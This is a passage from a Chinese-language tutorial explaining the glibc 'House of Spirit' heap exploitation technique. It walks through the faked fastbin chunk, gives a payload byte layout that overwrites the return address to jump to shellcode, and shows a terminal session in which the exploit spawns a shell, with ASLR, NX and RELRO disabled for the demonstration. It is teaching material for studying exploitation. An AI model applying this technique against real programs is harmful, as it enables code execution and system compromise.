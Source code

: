 *   `free()`调用了`_int_free()`。现在在缓冲区溢出之后，`ptr1 = 0xbffffdf0`（而不是`0x804aa08`）。被覆盖的`ptr1`作为参数传递给`free`。这欺骗 glibc malloc 来释放栈上的内存区域。被释放的这个栈区域的大小，位于`ptr1-8+4`，被攻击者覆盖为`0x30`。因此 glibc malloc 将这个块看做 fast 块（因为`48 < 64`），并将释放得快插入 fast binlist 的前面，位于下标 4。

行`[5]`：获取（在行`[4]`添加的）栈区域

*   malloc 请求 40 由`checked_request2size`转换为可用大小 48。由于可用代销 48 属于 fast 块，对应的 fast bin（位于下标 4）会被获取。fast binlist 的第一个块被溢出，并返回给用户。第一个块是在行`[4]`执行过程中添加的栈区域。

行`[6]`：覆盖返回地址

*   将攻击者的参数`argv[1]`复制到栈区域（由 glibc malloc 返回），它从`0xbffffdf0`位置开始。`argv[1]`的前 16 个字节是：

    *   `\xeb\x0e`：JMP 14 字节。
    *   `\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41`：填充。
    *   `\xb8\xfd\xff\xbf`：储存在栈上的返回地址会被这个值覆盖。因此在`fvuln`执行之后，EIP 是`0xbffffdb8` – 这个位置包含 JMP 指令，之后是派生 shell 的 shellcode。

使用攻击者的参数执行漏洞程序会执行 shellcode，像这样：

```
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ ./exp 

PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]

AAAAAAAAAA����1�Ph//shh/bin��P��S�
$ ls
cmd  exp  exp.c  print  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$
```

保护：直到现在，没有添加针对这个技巧的任何保护。这个技巧能帮助我们利用堆溢出，即使它使用最新的 glibc 编译。

House of Prime: TBU

House of Lore: TBU

注意：出于演示目的，所有漏洞程序都不使用下列 Linux 保护机制编译：

*   ASLR
*   NX
*   RELRO（重定向只读）

## 参考

*   [The Malloc Maleficarum](http://packetstormsecurity.com/files/view/40638/MallocMaleficarum.txt)